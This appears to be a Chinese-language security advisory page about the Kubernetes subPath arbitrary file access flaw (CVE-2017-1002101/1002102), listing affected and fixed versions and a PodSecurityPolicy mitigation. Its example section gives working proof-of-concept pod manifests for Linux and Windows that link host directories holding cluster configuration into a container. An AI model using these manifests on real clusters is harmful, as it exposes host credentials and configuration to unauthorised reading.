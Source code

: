 ```yaml
---
type: page
title: Kubernetes 任意文件访问漏洞
date: 2018-03-21 20:17:18
tags: [kubernetes]
---
```


前段时间 Kubernetes 发布了一系列的安全更新，修复了一个因 subpath 处理不当导致的任意文件访问漏洞（[CVE-2017-1002101](https://github.com/kubernetes/kubernetes/issues/60814)和 [CVE-2017-1002102](https://github.com/kubernetes/kubernetes/issues/60814)）。受该漏洞影响的版本包括

- Kubernetes 1.3.x-1.6.x
- Kubernetes 1.7.0-1.7.13
- Kubernetes 1.8.0-1.8.8
- Kubernetes 1.9.0-1.9.3

建议所有使用 Kubernetes 的生产用户更新到修复版本

- v1.7.14（ [#61047](https://github.com/kubernetes/kubernetes/pull/61047)）
- v1.8.9 （[#61046](https://github.com/kubernetes/kubernetes/pull/61046)）
- v1.9.5 （[#61045](https://github.com/kubernetes/kubernetes/pull/61045) [#61080](https://github.com/kubernetes/kubernetes/pull/61080)，其中 v1.9.4 存在 subPath 无法在 Secret 等 Volume 中使用的问题，建议直接跳过该版本）
- v1.10（将在未来几天发布）

除了升级集群版本之外，建议使用 PodSecurityPolicy 禁止 hostPath 存储卷，如

```yaml
apiVersion: extensions/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted
  annotations:
    seccomp.security.alpha.kubernetes.io/allowedProfileNames: 'docker/default'
    apparmor.security.beta.kubernetes.io/allowedProfileNames: 'runtime/default'
    seccomp.security.alpha.kubernetes.io/defaultProfileName:  'docker/default'
    apparmor.security.beta.kubernetes.io/defaultProfileName:  'runtime/default'
spec:
  privileged: false
  # Required to prevent escalations to root.
  allowPrivilegeEscalation: false
  # This is redundant with non-root + disallow privilege escalation,
  # but we can provide it for defense in depth.
  requiredDropCapabilities:
    - ALL
  # Allow core volume types.
  volumes:
    - 'configMap'
    - 'emptyDir'
    - 'projected'
    - 'secret'
    - 'downwardAPI'
    # Assume that persistentVolumes set up by the cluster admin are safe to use.
    - 'persistentVolumeClaim'
  hostNetwork: false
  hostIPC: false
  hostPID: false
  runAsUser:
    # Require the container to run without root privileges.
    rule: 'MustRunAsNonRoot'
  seLinux:
    # This policy assumes the nodes are using AppArmor rather than SELinux.
    rule: 'RunAsAny'
  supplementalGroups:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  fsGroup:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  readOnlyRootFilesystem: false
```

## 漏洞示例

### Linux

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: subpath
spec:
  initContainers:
  - name: symlink
    image: "alpine"
    command: ['ln', '-s', '/etc/kubernetes', '/data/vol']
    volumeMounts:
    - name: volume01
      mountPath: /data/
  containers:
  - name: sh
    image: "alpine"
    command: ["sh"]
    stdin: true
    tty: true
    volumeMounts:
    - name: volume01
      subPath: vol
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath ls /test
azure.json     certs          manifests      volumeplugins
```

### Windows

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```sh
apiVersion: v1
kind: Pod
metadata:
  name: subpath-win
spec:
  initContainers:
  - name: symlink
    image: microsoft/iis
    command:
    - cmd.exe
    - /c
    - mklink /J c:\data\kubernetes c:\k
    volumeMounts:
    - name: volume01
      mountPath: /data
  containers:
  - name: cmd
    image: microsoft/iis
    volumeMounts:
    - name: volume01
      subPath: kubernetes
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
  nodeSelector:
    beta.kubernetes.io/os: windows
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath-win powershell ls /test

    Directory: C:\test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/13/2018   8:13 AM                cni
d-----         3/7/2018   4:43 AM                volumeplugins
-a----         3/7/2018   4:43 AM            635 azure.json
-a----         3/7/2018   4:43 AM           9446 config
```
